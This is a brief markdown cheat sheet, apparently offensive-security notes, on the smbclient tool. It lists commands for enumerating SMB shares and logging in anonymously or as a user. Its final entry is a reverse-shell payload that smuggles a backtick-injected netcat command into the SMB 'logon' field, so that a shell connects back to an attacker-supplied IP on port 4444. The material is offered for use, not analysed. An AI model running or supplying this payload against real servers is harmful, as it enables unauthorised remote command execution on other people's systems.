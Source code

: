# SMBClient
## Examples
### List services on a server
```
smbclient -L $IP
```
###  Login as a user in SMB
```
smbclient -L $IP -U "WorkgroupMasterName"
```
### Anonymous login
```
smbclient //$IP/share
```
### reverse shell with smb if 'logon' command exists
```
smb: \> logon “/=`nc 'myIP' 4444 -e /bin/bash`"
```